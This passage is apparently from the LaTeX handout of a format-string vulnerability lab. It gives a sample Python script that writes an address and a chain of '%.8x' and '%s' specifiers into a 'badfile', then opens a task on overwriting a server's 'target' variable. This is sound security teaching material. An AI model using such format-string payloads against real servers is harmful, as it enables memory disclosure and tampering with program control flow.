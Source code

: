 \begin{lstlisting}[label=format:code:buildstring, caption={Sample code
\texttt{build\_string.py} (included in Labsetup.zip)}]
#!/usr/bin/env python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store an integer at offset 0
number  = 0x11223344aabbccdd
content[0:8]  =  (number).to_bytes(8,byteorder='little')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%s"
s = "%.8x"*12 + "%s"

# The line shows how to store the string s at offset 16
fmt  = (s).encode('latin-1')
content[16:16+len(fmt)] = fmt

# Write the content to badfile
file = open("badfile", "wb")
file.write(content)
file.close()
\end{lstlisting}



\subsection{Task 3: Changing Server Memory}

The objective of this task is to modify the value of the
\texttt{target} variable that is defined in the server program.
Its original value is \texttt{0x1122334455667788}.
Assume that this variable holds an important value, which can affect the
control flow of the program. If remote attackers can change its value,
they can change the behavior of this program. We have three sub-tasks.



